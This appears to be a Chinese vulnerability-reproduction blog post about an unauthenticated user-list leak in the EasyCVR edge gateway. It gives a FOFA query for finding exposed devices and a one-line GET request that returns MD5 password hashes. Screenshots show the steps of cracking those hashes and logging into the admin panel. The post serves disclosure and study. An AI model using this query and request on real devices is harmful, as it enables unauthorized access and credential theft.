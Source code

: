# 原创
：  漏洞复现--EasyCVR智能边缘网关未授权访问

# 漏洞复现--EasyCVR智能边缘网关未授权访问

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行**

### 一：漏洞描述

EasyCVR智能边缘网关是TSINGSEE青犀视频旗下一款软硬一体的产品，可提供多协议的设备接入、采集、AI智能检测、处理、分发等服务。该设备userlist接口存在信息泄露，攻击者可获得md5加密后的密码以进行后续测试。

### 二：漏洞影响版本

–EasyCVR智能边缘网关

### 三：网络空间测绘查询

fofa：`title="EasyCVR"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/657a0406ae9f0e098de744262a3b7049.jpeg"/>

### 四：漏洞复现

poc:<br/> `GET /api/v1/userlist?pageindex=0&amp;pagesize=10`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/ab895d1c90d512e46fb0be9c0ffda138.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/5cc3beb7bfecf95a49811da9ab639ba0.jpeg"/><br/> cmd5解密<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a43a151dd85c94c1a2337a1e3cc5a3b2.jpeg"/><br/> 登录后台<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/aaa7eb6ca3af4a3f20dc17dc34b54e5b.jpeg"/>
